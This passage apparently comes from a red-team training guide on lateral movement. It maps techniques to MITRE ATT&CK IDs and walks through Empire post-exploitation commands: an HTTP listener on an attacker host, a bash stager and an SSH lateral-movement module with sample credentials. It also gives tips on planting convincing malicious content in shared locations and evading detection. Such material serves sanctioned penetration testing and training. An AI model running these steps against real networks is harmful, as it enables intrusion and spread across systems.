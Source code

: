 **Specific ATT&CK Mapping**:
- Malicious content in shared locations implements T1080
- Exploits trust relationships between systems and users

**Red Team Guidance**:
- Target shared locations used by administrators or privileged users
- Make malicious content appear legitimate and useful
- Consider exfiltrating and modifying existing shared scripts

### Empire: Post-Exploitation Framework

**Empire** provides comprehensive lateral movement capabilities:

```bash
# Start Empire
sudo empire

# Create a listener
uselistener http
set Name lateral
set Host 192.168.1.100
set Port 8080
execute

# Generate a stager
usestager multi/bash
set Listener lateral
execute

# Use lateral movement modules
usemodule lateral_movement/ssh_command
set Target 192.168.1.110
set Username compromised_user
set Password Password123
execute
```

**Specific ATT&CK Mapping**:
- Empire implements multiple lateral movement techniques:
  - Remote Service exploitation (T1210)
  - Use of Remote Services (T1021)
  - Various credential techniques (T1550)

> **RED TEAM TIP:**
>
> Create a lateral movement map for your target network:
>
> 1. Document discovered systems and credentials
> 2. Map trust relationships between systems
> 3. Identify critical junction points for lateral movement
> 4. Plan multiple movement paths to critical assets
> 5. Implement least-noisy techniques first
>
> This systematic approach ensures efficient lateral movement while minimizing detection.
